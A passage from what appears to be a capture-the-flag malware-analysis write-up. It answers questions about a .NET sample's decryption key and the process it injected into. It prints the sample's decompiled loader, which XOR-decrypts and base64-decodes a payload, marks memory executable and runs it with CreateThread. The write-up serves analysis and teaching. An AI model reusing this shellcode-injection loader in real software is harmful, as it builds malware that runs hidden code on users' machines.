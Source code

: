 The name can be found on VirusTotal.

### Solution
<details><summary>Spoiler warning</summary></details>

## Question 16 - Identify the key (in UTF8) in the .NET binary that is used to decrypt the payload from the previous question

-------------------------------------

To answer this, we can use the **ILSpy** tool since our file is a .NET, and here is the key:

![alt text](assets\img\favicons\VVimg\VV14.png)

<details><summary>Spoiler warning</summary></details>

## Question 17 - What is the full path of the process the initial payload spawned and then injected itself into?

-------------------------------------

Looking at the code with ILSpy, we can again notice a base64 blob on which self-injection is performed with CreateThread:

```c
string s = XOR_Decrypt(ciphertext);
byte[] array = Convert.FromBase64String(s);
IntPtr intPtr = VirtualAlloc(0u, (uint)array.Length, 12288u, 4u);
Marshal.Copy(array, 0, intPtr, array.Length);
IntPtr zero = IntPtr.Zero;
uint lpThreadId = 0u;
IntPtr zero2 = IntPtr.Zero;
VirtualProtect(intPtr, (uint)array.Length, 32u, out var _);
zero = CreateThread(0u, 0u, intPtr, zero2, 0u, ref lpThreadId);
WaitForSingleObject(zero, uint.MaxValue);
```
